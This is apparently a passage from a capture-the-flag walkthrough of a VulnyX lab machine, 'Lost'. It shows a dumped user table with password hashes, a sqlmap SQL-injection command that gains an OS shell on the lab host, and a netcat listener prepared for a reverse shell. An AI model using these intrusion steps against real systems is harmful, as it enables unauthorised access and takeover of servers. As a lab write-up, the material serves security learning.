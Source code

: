 ```
| 5  | 21dcdad0-cc0f-11ee-88ad-c6d3ce8f613a | fba8173e097cd7d7fc21b5ba51f141aceb7d3175187833cf885f1a9b55105d65 | benjamin |
| 6  | 21dcdae6-cc0f-11ee-88ad-c6d3ce8f613a | 257640cfdf009d58f51cf5f9639961e0f7919122102e00da44ec813b2812c1e8 | sayd     |
| 7  | 21dcdafc-cc0f-11ee-88ad-c6d3ce8f613a | cbc27bcf23e7c1de300290f7cad2c53288d49f9e0abaa9bdaf23bf013d38f473 | jacob    |
| 8  | 21dcdb0f-cc0f-11ee-88ad-c6d3ce8f613a | 981c0ce3c15f43574fd091a11ca681156c5efff6d0ff591dbf50a8cf7020f319 | claire   |
| 9  | 21dcdb26-cc0f-11ee-88ad-c6d3ce8f613a | 549499d0ec3d5c13a7c2706e10fd46fd9bb4c372827d4802998f4cbd9cdf37c3 | desmond  |
| 10 | 21dcdb39-cc0f-11ee-88ad-c6d3ce8f613a | a6552547aa662097571391ff4a5eb0f944a290973df7ee6347c78e5a74f70d0a | john     |
+----+--------------------------------------+------------------------------------------------------------------+----------+
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap 'http://dev.lost.nyx/passengers.php?id=1*' --batch --os-shell

[SNIP]

[04:36:24] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```

```
os-shell> whoami
command standard output: 'www-data'
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337

listening on [any] 1337 ...

[CONTINUE]
```

![Firefox - Reverse Shell Generator (`https://www.revshells.com/` Python)](./assets/screenshots/vulnyx_lost_firefox_reverse_shell_generator_python.png)
